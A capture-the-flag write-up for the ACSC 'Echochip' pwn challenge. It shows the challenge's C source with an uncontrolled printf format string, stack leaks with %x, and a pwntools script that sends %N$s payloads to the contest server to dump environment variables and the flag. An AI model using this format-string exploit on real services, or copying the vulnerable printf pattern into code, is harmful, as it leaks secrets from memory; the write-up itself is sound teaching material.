 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01
title: ACSC Echochip Writeup
slug: echochip
featured: true
draft: false
tags:
  - pwn
description:
    The solution of the ACSC Echochip challenge
---
```



# Echochip

## Description
```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Provided Files
```
- Echochip.zip
```

## Writeup

Starting off, I inspected the provided `c` program. <br/>
```c
// gcc Echochip.c -Wl,-z,relro,-z,now -Wall -o Echochip

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

The thing that instantly caught my eye was the `printf` function which actually takes our direct input without any checks. <br/>
Knowing this, we can try for a `string formatting vulnerability`. <br/>
```sh
$ ./share/Echochip 
Please input the message to echo: 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
a78252e.e1ae3080.a78252e.0.0.e1ae34b8.28.0.27.e1ae30a7.e1ae31aa.252e7825.2e78252e.78252e78
```

As we can I see in the output, we are leaking data from the stack. <br/>
The thing that interests me the most is that the flag is being read from an `env-var`. <br/>
`char *flag_env = getenv("FLAG");` this indicates that the string should be loaded into memory at some point. <br/>

Knowing this, we can actually check for strings by leaking the stack `position by position` using a `string-formatter`. <br/>
```sh
$ python3 bruteforce.py
-----
147  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin7$s

148  
HOSTNAME=a8415c1597e18$s

149  
FLAG=dach2025{NOT_THE_FLAG}9$s

150  
HOME=/home/ctf0$s

151  
SOCAT_PID=19811$s

152  
SOCAT_PPID=12$s

153  
SOCAT_VERSION=1.7.4.13$s

154  
SOCAT_SOCKADDR=172.19.0.24$s

155  
SOCAT_SOCKPORT=50005$s

156  
SOCAT_PEERADDR=172.19.0.16$s

157  
SOCAT_PEERPORT=562547$s
-----
``` 

There we can see all `environment-variables` as well as the `test-flag`. <br/>
These are loaded into the memory of the binary and that's the reason we can leak them. <br/>
With all this information we can now exploit it on the server and get the actual flag. <br/>

```py
from pwn import *

context.log_level = 'error'

for i in range(145,160):
    payload = f"%{i}$s".encode()

    p = remote('port.dyn.acsc.land', 34241)
    p.sendlineafter(b'Please input the message to echo:', payload)

    res = p.recvall().decode('latin-1')

    if 'dach' in res:
        print(res)

    p.close()
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 offset.py 
[*] '/home/aryt3/Hacking/CTFs/acsc_qualy_2025/Echochip/share/Echochip'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
FLAG=dach2025{d0es_th1s_m4ke_my_v01ce_s0und_deep3r_rimycu6vrt3m0nne}2$s
